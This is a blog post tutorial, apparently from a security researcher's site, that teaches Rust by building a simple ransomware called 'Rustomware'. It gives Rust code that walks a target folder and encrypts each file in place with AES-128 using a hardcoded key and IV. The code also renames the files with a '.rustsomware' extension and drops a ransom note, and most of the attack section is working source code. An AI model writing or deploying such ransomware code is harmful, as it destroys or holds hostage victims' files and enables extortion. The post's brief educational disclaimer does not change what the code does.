 ```yaml
---
layout: post
title: Rust 101 - Let's write a Rustomware
subtitle: Writing a ransomware in rust
gh-repo: idov31/rustomware
gh-badge: [star, fork, follow]
tags: [rust, windows, linux, malware-dev]
---
```


## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [FunctionStomping](https://github.com/idov31/FunctionStomping) in Rust. Later on, I ran into trickster0's amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and that gave me more motivation to learn Rust. Nowadays I'm creating a unique C2 framework written (mostly) in Rust. If you are familiar with Rust, you can skip to Part 2 below.

The whole code for this blog post is avaliable in my [Github](https://github.com/idov31/rustomware) :).

## Rust's capabilities

The reason that I think that Rust is awesome language is because its powerful compiler, memory safety, easy syntax and great interfacting with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end it helps the developer to create safer programs. In the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debug) and will be called rustomware.exe. You'll notice that there are few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here, in general the Cargo.lock file contains the dependecies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive in to code our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our own extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result a result type that can be either Ok or Err. We also needed to clone the string because it Rust need to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption / decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use AES128 with Rust, pretty simple right?

As you saw, Rust have a simple interface with the file system that allows to rename and do io operations easily. Because this is a simple example the function returns boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a seperate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to file and if we want to do any change just change the README file and recompile, no code editting required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste from Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is avaliable in my [Github](https://github.com/idov31), for any question feel free to ask me on [Twitter](https://twitter.com/idov31).

## Discalimer

I'm not responsible for any damage that may occur to your computer. This article is just for eductional purposes and not inteded to be used in any other way.

